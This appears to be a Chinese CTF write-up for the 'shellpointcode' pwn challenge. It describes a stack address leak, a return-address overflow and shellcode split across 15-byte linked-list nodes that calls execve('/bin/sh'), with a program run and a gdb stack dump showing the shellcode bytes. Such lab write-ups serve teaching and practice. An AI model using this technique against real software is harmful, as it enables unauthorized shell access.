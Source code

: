 很明显的让你写shellcode的题目，简单的审计和运行过一遍程序后发现他是一个有两个节点链表结构，并且每个节点输入最多为15byte，并且在node.next泄露出了栈上的地址，对于完整shellcode来说15字节一般是不够的

```bash
➜  shellpointcode ./shellpointcode 
Linked lists are great! 
They let you chain pieces of data together.

(15 bytes) Text for node 1:  
aaaa
(15 bytes) Text for node 2: 
bbbb
node1: 
node.next: 0x7ffd53539c70
node.buffer: aaaa

What are your initials?
111
Thanks 111
```

简单分析调试后可以得到栈溢出后8byte后即为返回地址，我们在写完ret地址后接着写入‘/bin/sh’可以达到在开始执行shellcode时rsp里存放的是指向/bin/sh的指针，那么便可以利用mov rdi,rsp使‘/bin/sh\0’作为execve的参数来调用execve('/bin/sh')来getshell

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x19 
RBX: 0x0 
RCX: 0x7f1f405832c0 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7f1f40852780 --> 0x0 
RSI: 0x7ffea8fdff90 ("Thanks ", 'a' <repeats 11 times>, "h&\376\250\376\177\n\nnode.buffer: H\211\347j;X1\366\231\017\005\n\n")
RDI: 0x1 
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7ffea8fe2638 --> 0x7ffea8fe2668 --> 0xf631583b6ae78948 
RIP: 0x55d7207d08ee (ret)
R8 : 0x7f1f40a5e700 (0x00007f1f40a5e700)
R9 : 0x19 
R10: 0x11 
R11: 0x246 
R12: 0x55d7207d0720 (xor    ebp,ebp)
R13: 0x7ffea8fe2770 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55d7207d08e7:	call   0x55d7207d06d0
   0x55d7207d08ec:	nop
   0x55d7207d08ed:	leave  
=> 0x55d7207d08ee:	ret    
   0x55d7207d08ef:	push   rbp
   0x55d7207d08f0:	mov    rbp,rsp
   0x55d7207d08f3:	sub    rsp,0x40
   0x55d7207d08f7:	lea    rax,[rbp-0x40]
[------------------------------------stack-------------------------------------]
0000| 0x7ffea8fe2638 --> 0x7ffea8fe2668 --> 0xf631583b6ae78948 
0008| 0x7ffea8fe2640 --> 0x68732f6e69622f ('/bin/sh')
0016| 0x7ffea8fe2648 --> 0xa ('\n')
0024| 0x7ffea8fe2650 --> 0x0 
0032| 0x7ffea8fe2658 --> 0x7f1f40851620 --> 0xfbad2887 
0040| 0x7ffea8fe2660 --> 0x7ffea8fe2640 --> 0x68732f6e69622f ('/bin/sh')
0048| 0x7ffea8fe2668 --> 0xf631583b6ae78948 
0056| 0x7ffea8fe2670 --> 0xa050f99 
[------------------------------------------------------------------------------] blue
Legend: code, data, rodata, value
```